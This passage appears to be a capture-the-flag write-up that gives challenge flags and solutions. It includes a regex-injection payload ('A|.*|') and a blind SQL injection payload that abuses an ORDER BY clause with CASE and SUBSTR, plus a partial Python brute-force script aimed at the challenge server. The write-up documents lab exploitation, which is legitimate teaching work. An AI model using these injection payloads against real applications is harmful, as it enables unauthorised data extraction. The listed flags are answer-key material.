 ```
"It's good to know the difference :)"

```
flag{c2ed35aba037cd93381b298caa2720ee}
```

### Technical Support:

_Want to join the party of GIFs, memes and emoji spam? Or just want to ask a question for technical support regarding any challenges in the CTF? Join us in the Discord -- you might just find a flag in the #ctf-help channel!_

flag is in description of #ctf-chat channel

```
flag{081fef2f11f3eec6059e3da9117ad3f0}
```

### Personnel:

A challenge that was never discovered during the 2021 Constellations mission... now ungated :)

Attachment: `app.py`

looking at app.py it will remove first character from name parameter `name = name[1:]` and put it in regex

`results = re.findall(r"[A-Z][a-z]*?" + name + r"[a-z]*?\n", users, setting)`
in regex `.*` means everything and we can escape other conditions with use of or operator "|".

payload: `A|.*|`

```
flag{f0e659b45b507d8633065bbd2832c627}
```

### Flaskmetal Alchemist:

Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

Attachment: `fma.zip`

looking at app.py we can say that it maybe valnurable to orderby blind sqli

payload= 
```
(CASE WHEN (SELECT (SUBTR(flag, 1,1)) from flag) = 'f' THEN name ELSE atomic_number END)--
```
it will sort by name if true and number if false
here is python script to brute force flag:

```python
 import string
    from bs4 import BeautifulSoup
    import requests
    url = "http://challenge.nahamcon.com:31631/"
    data = {'search': '',
            'order': "(CASE WHEN (SELECT (SUBSTR(flag, 1, 1)) from flag ) = 'f' THEN name ELSE atomic_number END)--"}
    x = requests.post(url, data=data)
    # x1 = BeautifulSoup(x.text, features='lxml').td.contents[0]
    # print(x1)
    s = 'flag{' + string.ascii_lowercase + '_' + '}'
```